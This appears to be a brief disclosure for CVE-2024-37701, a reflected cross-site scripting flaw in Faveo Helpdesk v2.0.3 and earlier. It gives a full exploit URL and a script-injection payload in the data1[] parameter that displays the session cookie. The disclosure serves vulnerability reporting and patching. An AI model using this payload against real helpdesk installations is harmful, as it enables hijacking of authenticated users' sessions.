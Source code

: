 Use CVE-2024-37701


Vulnerability: Reflected XSS via data1[]

URL: ```https://192.168.124.130/get-merge-tickets/0?data1[]=10&data1[]=1'><script>alert(document.cookie)</script>```

Payload: ```'><script>alert(document.cookie)</script>```

Action to trigger: None

Note: The merge values need to be valid

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data1[]


https://github.com/ladybirdweb/faveo-helpdesk


![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_XSS_via_data1%5B%5D.gif)
